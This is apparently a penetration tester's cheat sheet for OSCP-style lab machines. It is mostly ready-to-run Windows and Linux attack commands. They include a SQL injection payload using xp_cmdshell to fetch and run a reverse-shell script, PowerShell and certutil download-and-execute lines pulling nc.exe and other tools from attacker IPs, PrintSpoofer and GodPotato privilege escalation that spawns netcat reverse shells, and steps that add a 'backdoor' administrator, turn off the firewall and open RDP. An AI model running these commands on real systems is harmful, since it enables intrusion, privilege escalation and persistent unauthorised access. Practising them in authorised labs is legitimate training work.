 Investigate Process.

```bash
Get-NetTCPConnection | Where-Object { $_.State -eq "LISTEN" } | select @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}, 127.0.0.1, 8000
Get-Process -Id (Get-NetTCPConnection -LocalPort 8000).OwningProcess
Get-Process -Id (Get-NetUDPEndpoint -LocalPort 8000).OwningProcess
netstat -a -b
```

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+

iex(iwr -uri 192.168.45.178:8000/transfer_files.ps1 -usebasicparsing)
iex(iwr -uri 10.10.14.8:8000/transfer_files.ps1 -usebasicparsing)
curl 10.10.14.8:8000/nc.exe -o nc.exe

Get-NetTCPConnection -LocalPort 49681 | Select-Object -Property OwningProcess | Get-Process

iex(iwr -uri 192.168.49.140:8000/nc.exe -usebasicparsing)
transfer_files.ps1
iwr -uri 192.168.45.178:8000/Certify.exe -usebasicparsing -outfile c:\windows\tasks\Certify.exe

iex(iwr -uri 10.10.112.153:1234/transfer_files_ad.ps1 -usebasicparsing)
certutil.exe -f -urlcache -split http://192.168.45.221:8000/svc_mssql443.exe svc_mssql443.exe
wget http://192.168.45.178:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;
certutil.exe -f -urlcache -split http://192.168.45.221:8000/
192.168.49.140
# Uploaded nc.exe from /usr/share/windows-resources/binaries/nc.exe
.\PrintSpoofer64.exe -c ".\nc.exe -e cmd.exe 192.168.45.221 80"

.\PrintSpoofer64.exe -i -c C:\Windows\Tasks\binary.exe

.\GodPotato-NET2.exe -cmd ".\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.221 8081"
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.221 8081"

Start-Process -NoNewWindow .\shell443.exe

Start-Process "$env:windir\system32\mstsc.exe" -ArgumentList "/v:ms01.oscp.exam"

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"

# Create Another Admin for RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
netsh advfirewall set allprofiles state off
net user /add backdoor Password123!
net localgroup administrators /add backdoor
net localgroup "Remote Desktop Users" backdoor /add
xfreerdp /v:192.168.140.101 /u:backdoor /p:Password123 /cert:ignore +clipboard

curl http://192.168.45.163:8000/linpeas.sh -o linpeas.sh;chmod +x linpeas.sh;
curl http://192.168.45.163:8000/pspy64 -o pspy64;chmod +x pspy64;./pspy64
```
